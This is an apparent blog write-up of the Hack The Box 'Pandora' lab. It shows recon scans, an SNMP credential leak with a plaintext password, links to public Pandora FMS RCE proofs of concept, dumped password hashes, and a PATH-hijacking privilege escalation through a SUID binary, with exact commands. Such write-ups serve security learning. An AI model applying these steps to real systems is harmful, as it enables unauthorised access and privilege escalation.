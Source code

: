 ```yaml
---
layout: post
title: HTB - pandora
date: 2025-04-09 09:00 -0400
---
```


{{ 'pandora' | machine_img }}

## nmap
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-25 15:39 -04
Nmap scan report for 10.10.11.136
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24c295a5c30b3ff3173c68d7af2b5338 (RSA)
|   256 b1417799469a6c5dd2982fc0329ace03 (ECDSA)
|_  256 e736433ba9478a190158b2bc89f65108 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```

## main page
![panda.htb](/assets/img/pandora1.png)

Some emails and domains on the page body:
- support@panda.htb
- contact@panda.htb
- Panda.HTB

subdomain bruteforce gives nothing.
```bash
~/workspace/projects/htb/pandora » ffuf -u http://$(cat ip.txt)/ -H 'Host: FUZZ.panda.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -ac

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.136/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.panda.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: all
________________________________________________

:: Progress: [4990/4990] :: Job [1/1] :: 100 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
```

Contact seems to be the only feature that works.
Looks a lot like xss but it isn't working.
Directory listings are enabled but there is nothing interesting in it.
Nothing in the js files also.

Time to check udp.

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-25 16:13 -04
Warning: 10.10.11.136 giving up on port because retransmission cap hit (10).
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.16s latency).
Not shown: 65456 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 73.80 seconds
```

Cool, nmap found something.

```bash
~/workspace/projects/htb/pandora » sudo nmap -p161 --script='*snmp*' -sU $(cat ip.txt) --min-rate 10000
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-25 16:15 -04
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.26s latency).

Bug in snmp-win32-software: no string output.
PORT    STATE SERVICE
161/udp open  snmp
...
| snmp-brute:
|_  public - Valid credentials
...

Nmap done: 1 IP address (1 host up) scanned in 65.01 seconds
```

Now we dump everything with: `snmpbulkwalk -c public -v2c panda.htb` and maybe there are some creds somewhere here.

These look a lot like creds.
```bash
HOST-RESOURCES-MIB::hrSWRunParameters.1086 = STRING: "-u daniel -p HotelBabylon23"
```

And that gives us the daniel shell but no user flag.
```bash
daniel@pandora:~$ cat /etc/passwd | grep /bash
root:x:0:0:root:/root:/bin/bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```

So matt is probably our next target.

Interesting files on `/var/www/pandora/pandora_console/`.
![pandora console](/assets/img/pandora4.png)

Seems to be using [pandorafms](https://github.com/pandorafms/pandorafms.git) from the Dockerfile.

Looks like there is an RCE with a public poc. [POC](https://www.exploit-db.com/exploits/50961). Doesn't seem to work.

This second one does. [POC1](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated)

This is both a RCE and a SQLi, that gives us the user flag.

```bash
matt@pandora:/tmp/tmp.44zbQs0ont# cat ~/user.txt
a162c***************************
```

Will try to bruteforce the hashes just in case matt's password is needed.
```bash
[*] None,admin@pandora.htb,ad3f741b04bd5880fb32b54bc4f43d6a
[*] None,daniel@pandora.htb,76323c174bd49ffbbdedf678f6cc89a6
[*] None,matt@pandora.htb,f655f807365b6dc602b31ab3d6d43acc
```

Nothing on crackstation.
![crackstation](/assets/img/pandora7.png)

Nothing on hashcat either.

There is an interesting suid binary.
```bash
262929     20 -rwsr-x---   1 root     matt        16816 Dec  3  2021 /usr/bin/pandora_backup
```

At first I thought I needed matt's password to run with sudo, but that is not the case.

Looking at ghidra we can see a `setreuid` call. That makes so matt keeps the root privilege when running without sudo.
![ghidra bin](/assets/img/pandora9.png)

And the actual bug is on `system()`. It doesn't specify a path so we can just change PATH to any script called tar.
```bash
cd $(mktemp -d)
export PATH=$(realpath .):/bin/:/usr/bin
echo 'cat /root/root.txt > /tmp/flag' > tar
chmod +x tar
/usr/bin/pandora_backup
root@pandora:/tmp/tmp.44zbQs0ont# cat ../flag
# e458b***************************
```

